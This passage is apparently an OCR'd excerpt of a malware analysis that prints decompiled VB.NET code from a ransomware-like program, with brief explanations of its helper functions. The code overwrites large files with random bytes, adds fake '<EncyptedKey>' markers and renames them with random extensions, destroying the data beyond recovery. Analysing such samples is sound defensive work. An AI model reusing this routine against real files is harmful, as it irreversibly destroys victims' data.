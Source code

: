 
1.  **`random_bytes` Function**:
    
    -   Generates an array of random bytes of the specified length using `Random.NextBytes`.
    -   Returns this byte array.
2.  **`randomEncode` Function**:
    
    -   Encodes the input string (`plainText`) into UTF-8 bytes, then into a base64 string.
    -   Returns a concatenated string with random elements and the base64-encoded `plainText`. It includes tags `<EncyptedKey>` and random strings, both a 41-character long base64-encoded string and a 2-character random string.
3.  **`Base64EncodeString` Function**:
    
    -   Converts the input string (`plainText`) into UTF-8 bytes and then encodes these bytes into a base64 string.
4.  **`RandomString` Function**:
    
    -   Generates a random alphanumeric string of the specified length.

#### Analysis

This code appears to be part of a file manipulation process, potentially for obfuscation or encryption purposes. Files are modified to contain random data and are renamed.

### Very Large Files Encrypting Process

```
Dim random As Random = New Random()
Dim num As Integer = random.[Next](200000000, 300000000)
Dim [string] As String = Encoding.UTF8.GetString(Program.random_bytes(num))
File.WriteAllText(files(i), Program.randomEncode([string]))
File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))

Public Shared Function random_bytes(length As Integer) As Byte()
	Dim random As Random = New Random()
	length += 1
	Dim array As Byte() = New Byte(length - 1) {}
	random.NextBytes(array)
	Return array
End Function

Public Shared Function randomEncode(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return String.Concat(New String() { "<EncyptedKey>", Program.Base64EncodeString(Program.RandomString(41)), "<EncyptedKey> ", Program.RandomString(2), Convert.ToBase64String(bytes) })
End Function

Public Shared Function Base64EncodeString(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return Convert.ToBase64String(bytes)
End Function

Public Shared Function RandomString(length As Integer) As String
	Dim stringBuilder As StringBuilder = New StringBuilder()
	For i As Integer = 0 To length - 1
		Dim c As Char = "abcdefghijklmnopqrstuvwxyz0123456789"(Program.random.[Next](0, "abcdefghijklmnopqrstuvwxyz0123456789".Length))
		stringBuilder.Append(c)
	Next
	Return stringBuilder.ToString()
End Function
```
### Very Large Files Encrypting Process
